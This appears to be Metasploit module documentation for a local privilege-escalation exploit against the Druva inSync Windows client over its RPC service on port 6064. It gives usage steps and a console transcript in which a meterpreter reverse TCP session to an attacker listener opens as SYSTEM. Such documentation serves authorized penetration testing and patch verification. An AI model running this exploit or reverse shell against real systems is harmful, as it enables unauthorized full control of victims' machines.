 ## Vulnerable Application

Druva inSync client for Windows exposes a network service on TCP
port 6064 on the local network interface. inSync versions 6.6.3
and prior do not properly validate user-supplied program paths
in RPC type 5 messages, allowing execution of arbitrary commands
as SYSTEM.

This module has been tested successfully on inSync versions
6.5.2r99097 and 6.6.3r102156 on Windows 7 SP1 (x64).

Download:

* https://downloads.druva.com/downloads/inSync/Windows/6.5.2/inSync6.5.2r99097.msi
* https://downloads.druva.com/downloads/inSync/Windows/6.6.3/inSync6.6.3r102156.msi


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  ### WritableDir

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Druva inSync6.6.3r102156 on Windows 7 SP1 (x64)

```
msf6 > use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set session 1
session => 1
msf6 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Service 'inSyncCPHService' exists.
[*] Connecting to 127.0.0.1:6064 ...
[*] Sending packet (258 bytes) to 127.0.0.1:6064 ...
[*] Sending stage (175174 bytes) to 172.16.191.171
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.171:49520) at 2020-12-10 07:03:04 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

